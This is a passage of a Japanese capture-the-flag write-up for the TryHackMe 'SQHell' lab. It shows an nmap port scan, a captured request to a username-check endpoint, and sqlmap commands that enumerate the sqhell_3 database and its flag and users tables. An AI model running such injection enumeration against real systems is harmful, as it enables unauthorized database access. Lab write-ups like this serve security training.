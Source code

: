 # SQHell CTF

https://tryhackme.com/room/sqhell

## Enumeration

### ポートスキャン

```shell
root@ip-10-10-61-48:~# sudo nmap -sS -p- $TARGET
Starting Nmap 7.80 ( https://nmap.org ) at 2025-05-07 07:59 BST
Nmap scan report for 10.10.76.124
Host is up (0.00044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:19:4B:18:12:BD (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.48 seconds
```

SSH, HTTP

## ユーザー登録画面

ユーザー登録画面で、ユーザー名を入力中に使用可否をチェックしている。

```http
GET /register/user-check?username=thm HTTP/1.1
Host: 10.10.76.124
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://10.10.76.124/register
```

sqlmap（DB 名列挙）で、sqhell_3 データベースの存在を確認。

```shell
sqlmap -r ./req-register.txt -p username --dbs

available databases [2]:
[*] information_schema
[*] sqhell_3
```

flag, users テーブルの存在を確認。

```shell
sqlmap -r ./req-register.txt -p username -D sqhell_3 --tables

Database: sqhell_3
[2 tables]
+-------+
| flag  |
| users |
+-------+
```
